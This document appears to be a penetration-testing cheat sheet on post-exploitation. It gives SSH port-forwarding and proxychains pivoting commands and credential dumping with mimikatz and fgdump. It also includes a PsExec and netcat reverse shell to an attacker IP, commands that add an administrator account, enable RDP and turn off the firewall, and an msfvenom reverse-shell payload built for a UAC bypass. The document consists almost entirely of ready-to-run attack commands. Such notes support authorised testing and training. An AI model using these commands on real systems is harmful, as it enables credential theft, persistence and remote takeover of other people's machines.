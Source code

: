 # Post Exploitation
* [Lateral Movement](#Lateral-movement)
* [Dumping Credentials](#Dumping-credentials)
* [Misc](#Misc)

## Lateral movement
### Local Port forwarding
#### Port forwarding rinetd
```
apt install rinetd
cat /etc/rinetd.conf
```

#### SSH local port forward
```
ssh -N -L <LOCAL PORT>:127.0.0.1:<TARGET PORT> <USERNAME>@<TARGET IP>
```

#### SSH port forwarding over hop
```
ssh -N -L <BIND_ADRESS>:<PORT>:<TARGET IP>:<TARGET PORT> <USERNAME>@<HOP IP>
```
### Remote port forwarding
#### SSH forward local port of target back to our kali
```
ssh -N -R <BIND_ADRESS>:<PORT>:127.0.0.1:<TARGET PORT> <USERNAME>@<IP>
```

### Dynamic port forwarding
```
sudo ssh -N -D 127.0.0.1:9000 <username>@<IP>
vim  /etc/proxychains.conf
socks4		127.0.0.1 9000 #Change this value
#prepend proxychains command before every command to send through the proxychain.
```

#### Port forwarding plink.exe
```
plink.exe <user>@<kali> -R <kaliport>:<target-IP>:<target-port>
```

### Proxychains
### Proxychains over hop
```
ssh -J <USER>@<FIRST HOP IP> -D 127.0.0.1:9000 <USER>@<SECOND MACHINE>
```

## Dumping credentials
#### Mimikatz.exe
Bring over mimikatz.exe using an SMB server.
```
mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords full"
```

#### Fgdump.exe
```
fgdump.exe
type .....pwdump
```

## Misc
#### PSExec
Shell back to my machine with other user using netcat 
```
PsExec.exe -u <COMPUTERNAME>\<USERNAME> -p <PASSWORD> \\<COMPUTERNAME> nc.exe <IP> <PORT> -e cmd.exe
```

#### Enable RDP and create user to login
```
#Enable RDP
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

#Enable more then 1 user login
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v fSingleSessionPerUser /t REG_DWORD /d 0 /f
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fSingleSessionPerUser /t REG_DWORD /d 0 /f

#Add user to RDP group
net user <USER> <PASS> /add /Y
net localgroup administrators <USER> /add
net localgroup "Remote Desktop Users" <USER> /add

#Disable firewall
netsh advfirewall set allprofiles state off

#RDP to machine
xfreerdp /u:<USER> /p:<PASS> /v:<TARGET>
```

#### UAC bypass
```
msfvenom -a x64 --platform Windows -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o shell.exe

wget https://raw.githubusercontent.com/turbo/zero2hero/master/main.c
#change
	GetCurrentDirectory(MAX_PATH, curPath);
	strcat(curPath, "\\shell.exe");

x86_64-w64-mingw32-gcc main.c -o bypassuac.exe

sudo nc -lnvp <PORT>
```

